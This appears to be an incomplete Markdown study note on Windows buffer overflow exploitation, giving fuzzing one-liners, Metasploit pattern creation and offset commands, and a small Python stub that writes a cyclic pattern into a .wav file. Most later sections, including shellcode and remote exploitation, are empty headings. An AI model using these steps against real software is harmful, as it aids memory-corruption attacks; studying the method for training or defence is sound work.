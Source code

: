 # Local Buffer Overflow
## Fuzzing

```
python -c "print('A'*10000)"
python -c "print('A'*10000, file=open('fuzz.wav', 'w'))"
```

## Controlling EIP

### Creating Unique Pattern

```
/usr/bin/msf-pattern_create -l 5000

ERC --pattern c 5000
```

### Exploit

win32bof_exploit.py

```
def eip_offset():
	payload = bytes("Aa0Aa1Aa2Aa3Aa4Aa5...Gj7Gj8Gj9Gk0Gk1Gk2Gk3Gk4Gk5Gk", "utf-8")

	with open('pattern.wav', 'wb') as f:
		f.write(payload)

eip_offset()
```

### Calculating EIP Offset

```
/usr/bin/msf-pattern_offset -q 31684630

[*] Exact match at offset 4112
```


## Indetyfing Bad Characters





## Finding a Return Instruction



## Jumping to Shellcode



# Remote Buffer Overflow

## Remote Fuzzing




## Building a Remote Exploit



## Remote Exploitation